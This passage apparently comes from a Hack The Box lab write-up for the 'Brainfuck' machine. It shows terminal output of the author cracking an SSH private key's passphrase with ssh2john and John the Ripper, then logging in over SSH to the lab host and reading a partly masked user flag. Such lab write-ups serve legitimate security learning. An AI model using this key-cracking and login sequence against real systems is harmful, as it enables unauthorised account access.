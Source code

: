 ```c
┌─[✗]─[george@parrot]─[~/HTB/boxes/brainfuck]
└──╼ $ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
┌─[george@parrot]─[~/HTB/boxes/brainfuck]
└──╼ $ john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:19 DONE (2023-09-24 16:55) 0.05047g/s 723962p/s 723962c/s 723962C/sa6_123..*7¡Vamos!
Session completed
```
### Jackpot

We cracked the key as `3poulakia!`. With that we can now access the box.

```c
┌─[george@parrot]─[~/HTB/boxes/brainfuck]
└──╼ $ chmod 600 id_rsa

┌─[george@parrot]─[~/HTB/boxes/brainfuck]
└──╼ $ ssh -i id_rsa orestis@10.10.10.17
The authenticity of host '10.10.10.17 (10.10.10.17)' can't be established.
ECDSA key fingerprint is SHA256:S+b+YyJ/+y9IOr9GVEuonPnvVx4z7xUveQhJknzvBjg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.17' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Mon Oct  3 19:41:38 2022 from 10.10.14.23
orestis@brainfuck:~$
```
And grab our `user` flags

```c
orestis@brainfuck:~$ cat user.txt
2c11cfbc5b959f*********************
orestis@brainfuck:~$
```
## Root
